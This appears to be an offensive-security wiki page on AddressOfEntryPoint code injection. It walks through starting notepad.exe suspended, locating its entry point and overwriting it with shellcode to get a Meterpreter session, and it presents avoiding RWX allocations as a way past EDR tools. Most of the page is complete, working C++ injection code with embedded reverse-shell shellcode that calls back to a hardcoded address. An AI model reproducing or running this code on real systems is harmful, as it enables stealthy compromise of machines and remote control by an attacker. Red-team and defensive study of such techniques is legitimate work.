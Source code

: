 ```yaml
---
description: Code Injection
---
```


# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state. 
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:

![](../../.gitbook/assets/image%20%28310%29.png)

We then need to parse out the NT and Optional Headers and find the AddressEntryPoint \(Relative Virtual Address\) of the notepad.exe which in my case was at 0001bf90:

![](../../.gitbook/assets/image%20%28118%29.png)

Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address \(by adding the two up\) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:

![bytes at AddressOfEntryPoint get overwritten with shellcode](../../.gitbook/assets/overwrite-entrypoint.gif)

Resuming the suspended process executes our shellcode which results in a meterpreter session:

![](../../.gitbook/assets/overwrite-entrypoint-catch-meterpreter.gif)

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

